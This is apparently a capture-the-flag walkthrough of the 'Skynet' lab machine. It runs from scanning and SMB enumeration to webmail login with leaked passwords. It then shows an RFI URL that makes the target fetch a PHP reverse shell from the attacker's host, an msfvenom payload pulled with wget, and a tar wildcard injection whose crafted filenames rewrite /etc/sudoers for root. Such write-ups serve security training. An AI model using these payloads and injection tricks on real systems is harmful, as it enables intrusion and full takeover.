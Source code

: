 ![title](https://user-images.githubusercontent.com/46513413/79808126-db5f0200-833a-11ea-85e6-0765061d0476.png)


## Reconnaissance

Runing NMAP reveals the following open ports/services:

    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
    |   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
    |_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
    80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Skynet
    110/tcp open  pop3        Dovecot pop3d
    |_pop3-capabilities: RESP-CODES CAPA UIDL TOP SASL AUTH-RESP-CODE PIPELINING
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    143/tcp open  imap        Dovecot imapd
    |_imap-capabilities: LITERAL+ LOGINDISABLEDA0001 IMAP4rev1 OK post-login more capabilities LOGIN-REFERRALS listed have ID Pre-login IDLE SASL-IR ENABLE
    445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.80%E=4%D=4/19%OT=22%CT=1%CU=40871%PV=Y%DS=2%DC=T%G=Y%TM=5E9CE16
    OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
    OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
    OS:1NW7%O6=M54DST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
    OS:(R=Y%DF=Y%T=40%W=6903%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
    OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
    OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
    OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
    OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
    OS:=S)

    Network Distance: 2 hops
    Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
    |_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: skynet
    |   NetBIOS computer name: SKYNET\x00
    |   Domain name: \x00
    |   FQDN: skynet
    |_  System time: 2020-04-19T18:40:14-05:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2020-04-19T23:40:13
    |_  start_date: N/A


Running gobuster revealed the following directories: 

    /index.html 
    /admin 
    /ai 
    /config 
    /css 
    /js 
    /squirrelmail 
    /.htaccess 
    /.hta 
    /.htpasswd 
    /server-status 
    
    
## Services

**SMB**

Notable output from enum4linux.

     ======================================= 
    |    Share Enumeration on 10.10.2.29    |
     ======================================= 

            Sharename       Type      Comment
            ---------       ----      -------
            print$          Disk      Printer Drivers
            anonymous       Disk      Skynet Anonymous Share
            milesdyson      Disk      Miles Dyson Personal Share
            IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
    SMB1 disabled -- no workgroup available

    [+] Attempting to map shares on 10.10.2.29
    //10.10.2.29/print$     Mapping: DENIED, Listing: N/A
    //10.10.2.29/anonymous  Mapping: OK, Listing: OK
    //10.10.2.29/milesdyson Mapping: DENIED, Listing: N/A
    //10.10.2.29/IPC$       [E] Can't understand response:
    NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
    
    S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)
    
 We now have share list, share permissions and a valid system user.  

 We have anonymous access to the anonymous share.
 I downloaded all of the files in the share and found log files. 
 
 The log file titled log1.txt contains user passwords.
 
 
**HTTP**

![skynet](https://user-images.githubusercontent.com/46513413/79807914-41975500-833a-11ea-923f-1287fde183e5.png)

The site itself is nothing special. The sites fundtions are either a POST request for either "Skynet+search" or "I;m Feeling Lucky" without the actual content of the search bar. 

  /squirrelmail - login page for SquirrelMail Login Webmail
  

## Gaining access

**Squirrel mail:**

Trying the system user **milesdyson** with the list of passwords from the log file reveals that **cyborg007haloterminator** is the valid password.

![mail](https://user-images.githubusercontent.com/46513413/79807912-41975500-833a-11ea-929a-07f7786f2ffa.png)

There are three emails in the inbox. The first one contains the milesdyson SMB share password )s{A&2Z=F^n_E.B\` . One of the other two is *"i can i i everything else . . . . . . . . . . . . . . balls have zero to me to me to me to me to me to me to me to me to"* and the other one is that phrase in binary.


**SMB**

Now that we know Miles' password, we are able to log into the milesdyson SMB share. The file notes/important.txt reveals a hidden directory the Miles has and mentions a CMS.

/45kra24zxs28v3yd

![miles](https://user-images.githubusercontent.com/46513413/79807911-41975500-833a-11ea-88b6-edef5c6bfac9.png)


There was nothing special or manipulatable on this page. The CMS mention in the note prompted me to run another directory bust attempt. Running gobuster again on this directory reveals an administrator directory.


![cms](https://user-images.githubusercontent.com/46513413/79807910-40febe80-833a-11ea-9816-eb1f13913b08.png)


Running searchsploit for cuppa shows one RFI/LFI vulnerability.

I ran the SimpleHTTP python module in a directory that contains my php reverse shell script. When the php script is ran it will call back to my system. 
 
I exploited the RFI vulnerability to call the php reverse shell script on my system. 

    http://10.10.184.129/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.3.104/php-reverse-shell.php

The SKYNET box requested and executed my php script that then called back to my machine listenting on port 1234.

I am now user www-data and can read the user.txt file in /home/milesdyson. 

## Upgrading shell to meterpreter 

Created the payload called shell.elf uisng msfvenom. 

Used msf exploit/multi/handler to listened for the call back.

I used the python SimpleHTTP to host shell.elf.

Using my current shell with SKYNET I went to a directory that I can write in /var/www/html. I used wget to download shell.elf and gave it executable permissions with chmod.

After running this I had a successful meterpreter shell on SKYNET.

![meterpreter](https://user-images.githubusercontent.com/46513413/79807913-41975500-833a-11ea-9d6f-72b93177efa0.png)

## Privilege escalation

I used the metasploit exploit suggester script and uploaded and ran [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

    run post/multi/recon/local_exploit_suggester
    
  Out of the 3 suggested local exploits the [BPF sign extension](https://www.rapid7.com/db/modules/exploit/linux/local/bpf_sign_extension_priv_esc) worked and I was able to obtain a root shell. 
  
  The linpeas output and manual poking around releaved a backups job that gets run and saved to /home/milesdyson/backsups. The script is owned and ran as root using tar for the backups.  

Reading this awsome article by **int0x33** shows excatly how to abuse the wildcard in "tar * " into using file names as command arguments to be able to either run a reverse shell script or add the current user into the sudoers file.
 
I decided to go the sudoers route. I ran "shell" to drop into a normal shell and ran the following to have a proper tty terminals session. 

    python -c 'import pty;pty.spawn("/bin/bash")';
 
I moved to /var/www/html (which is the directory being tar'd) and ran the following.

    echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
    echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
    echo "/var/www/html"  > --checkpoint=1

After short while I ran "sudo -l" with the following results.

    User www-data may run the following commands on skynet:
        (root) NOPASSWD: ALL

I am now able to run "sudo cat /root/root.txt" :)

![root](https://user-images.githubusercontent.com/46513413/79807915-422feb80-833a-11ea-8a7b-a1246d61051c.png)
